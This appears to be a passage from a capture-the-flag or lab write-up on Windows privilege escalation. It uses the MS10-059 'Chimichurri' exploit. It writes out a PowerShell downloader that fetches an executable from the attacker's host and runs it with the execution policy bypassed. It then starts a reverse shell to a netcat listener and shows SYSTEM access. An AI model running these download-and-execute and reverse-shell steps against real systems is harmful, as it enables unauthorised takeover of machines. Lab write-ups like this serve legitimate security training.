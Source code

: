 ```
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done

```



Select ms10-059 (chimichurri) which I have (found in a repository of windows exploits on github)


uploaded the file ....use the powershell wget type method found [here](https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html)


```

echo $webclient = New-Object System.Net.WebClient >>wget.ps1

echo $url = "http://10.10.14.20/c.exe" >>wget.ps1

echo $file = "c.exe" >>wget.ps1

echo $webclient.DownloadFile($url,$file) >>wget.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

```

set nc listener on 999


```

c:\boo>c.exe 10.10.14.20 999
c.exe 10.10.14.20 999
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
c:\boo>

```


got system shell in nc listener...


```

listening on [any] 999 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.11] 58122
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\boo>whoami
whoami
nt authority\system

```
